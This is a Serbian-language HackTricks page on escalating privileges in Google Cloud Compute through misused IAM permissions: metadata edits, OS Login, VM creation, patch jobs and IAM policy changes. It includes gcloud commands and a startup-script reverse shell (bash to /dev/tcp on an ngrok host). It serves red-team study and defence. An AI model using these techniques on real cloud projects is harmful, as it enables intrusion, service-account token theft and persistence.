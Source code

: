 # GCP - Eskalacija privilegija na računaru

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Računar

Za više informacija o Računaru i VPC (mreži) u GCP proverite:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Imajte na umu da za izvođenje svih napada eskalacije privilegija koji zahtevaju izmenu metapodataka instance (kao dodavanje novih korisnika i SSH ključeva) **potrebno je da imate dozvole `actAs` nad SA vezanim za instancu**, čak i ako je SA već vezan!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Sa tom dozvolom možete **izmeniti** informacije o **metapodacima** instance i promeniti **ovlašćene ključeve korisnika**, ili **kreirati** **novog korisnika sa sudo** privilegijama. Stoga, bićete u mogućnosti da se prijavite putem SSH-a na bilo koju VM instancu i ukradete GCP Servisni Nalog sa kojim se Instanca izvršava.\
Ograničenja:

* Imajte na umu da GCP Servisni Nalozi koji se izvršavaju u VM instancama podrazumevano imaju **veoma ograničen opseg**
* Morate biti **u mogućnosti da kontaktirate SSH** server za prijavu

Za više informacija o tome kako iskoristiti ovu dozvolu proverite:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Takođe možete izvesti ovaj napad dodavanjem novog startup skripta i ponovnim pokretanjem instance:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ova dozvola daje **iste privilegije kao i prethodna dozvola** ali nad specifičnim instancama umesto nad čitavim projektom. **Isti eksploiti i ograničenja kao i za prethodni deo važe**.

### `compute.instances.setIamPolicy`

Ova vrsta dozvole će vam omogućiti da **dodelite sebi ulogu sa prethodnim privilegijama** i eskalirate privilegije zloupotrebom istih.

### **`compute.instances.osLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovom dozvolom možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCA]`** i povezati se sa instancom. **Nećete imati root privilegije** unutar instance.

{% hint style="success" %}
Da biste uspešno se prijavili sa ovom dozvolom unutar VM instance, potrebno je da imate dozvolu `iam.serviceAccounts.actAs` nad SA koji je pridružen VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Ako je **OSLogin omogućen na instanci**, sa ovom dozvolom možete jednostavno pokrenuti **`gcloud compute ssh [INSTANCA]`** i povezati se sa instancom. Imateće **root privilegije** unutar instance.

{% hint style="success" %}
Da biste uspešno se prijavili sa ovom dozvolom unutar VM instance, potrebno je da imate dozvolu `iam.serviceAccounts.actAs` nad SA koji je pridružen VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Moguće je **kreirati virtuelnu mašinu sa dodeljenim Service Account-om i ukrasti token** servisnog naloga pristupajući metapodacima kako biste eskalirali privilegije na njemu.

Skripta za eksploataciju ovog metoda može se pronaći [ovde](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ako imate dozvole **`osconfig.patchDeployments.create`** ili **`osconfig.patchJobs.exec`** možete kreirati [**patch job ili deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Ovo će vam omogućiti da se lateralno krećete u okruženju i ostvarite izvršenje koda na svim računarskim instancama unutar projekta.

Ako želite ručno eksploatisati ovo, moraćete kreirati ili [patch job](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) ili [deployment](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) za pokretanje patch job-a:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Za implementaciju patch deployment-a:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Automatizovani alati poput [patchy](https://github.com/rek7/patchy) postoje kako bi detektovali slabe dozvole i automatski se kretali lateralno.

**Takođe možete zloupotrebiti ovo za perzistenciju.**

### `compute.machineImages.setIamPolicy`

**Dodelite sebi dodatne privilegije** nad slikom računara.

### `compute.snapshots.setIamPolicy`

**Dodelite sebi dodatne privilegije** nad snimkom diska.

### `compute.disks.setIamPolicy`

**Dodelite sebi dodatne privilegije** nad diskom.

### Bypass Access Scopes

Prateći ovaj link možete pronaći neke [**ideje kako zaobići pristupne opsege**](../).

### Lokalna eskalacija privilegija u GCP računarskoj instanci

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Reference

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
